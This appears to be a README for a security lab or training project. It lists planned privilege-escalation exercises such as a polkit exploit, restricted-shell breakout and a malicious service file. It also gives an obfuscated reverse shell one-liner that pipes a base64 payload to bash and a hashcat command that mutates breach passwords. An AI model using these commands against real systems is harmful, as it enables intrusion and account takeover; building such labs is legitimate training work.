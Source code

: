 # BAU-project
## TODO
1. Finish UI
2. Nabil create a docker image
3. Prepare exploits
4. Documentation :(
5. Enhance ProgramDownloader and test BoF attack
6. polkit 2022 exploit test
7. Restricted ssh shells (break out using python and tmux)
8. Dangling tmux session
9. Developers group can manage services (create a malicious service file and run it)
999. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation (might cancel..)
```
https://pastebin.com/UycbfwRP
```
## Password list
Download: https://github.com/clem9669/hashcat-rule/blob/master/clem9669_medium.rule
```
# mohammad_threats2022 (sample in PassFromBreach.txt )
hashcat -r clem9669_medium.rule --stdout PassFromBreach.txt > output.txt
```
